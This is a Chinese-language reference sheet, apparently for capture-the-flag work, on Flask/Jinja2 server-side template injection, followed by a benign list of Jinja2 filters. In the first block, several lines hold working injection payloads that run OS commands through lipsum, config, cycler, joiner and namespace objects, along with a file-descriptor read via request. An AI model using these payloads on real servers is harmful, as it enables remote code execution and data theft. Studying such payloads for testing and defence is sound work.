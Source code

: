 ##### **常用函数：**

复制

```
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的模块、方法以及所有变量。查看所有键名：__globals__.keys()。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}

cycler               {{cycler.__init__.__globals__.os.popen('id').read()}}
joiner               {{joiner.__init__.__globals__.os.popen('id').read()}}
namespace            {{namespace.__init__.__globals__.os.popen('id').read()}}
```

##### 常用过滤器：

```
int()：将值转换为int类型；
float()：将值转换为float类型；
lower()：将字符串转换为小写；
upper()：将字符串转换为大写；
title()：把值中的每个单词的首字母都转成大写；
capitalize()：把变量值的首字母转成大写，其余字母转小写；
trim()：截取字符串前面和后面的空白字符；
wordcount()：计算一个长字符串中单词的个数；
reverse()：字符串反转；
replace(value,old,new)： 替换将old替换为new的字符串；
truncate(value,length=255,killwords=False)：截取length长度的字符串；
striptags()：删除字符串中所有的HTML标签，如果出现多个空格，将替换成一个空格；
escape()或e：转义字符，会将<、>等符号转义成HTML中的符号。显例：content|escape或content|e。
safe()： 禁用HTML转义，如果开启了全局转义，那么safe过滤器会将变量关掉转义。示例： {{'<em>hello</em>'|safe}}；
list()：将变量列成列表；
string()：将变量转换成字符串；
join()：将一个序列中的参数值拼接成字符串。示例看上面payload；
```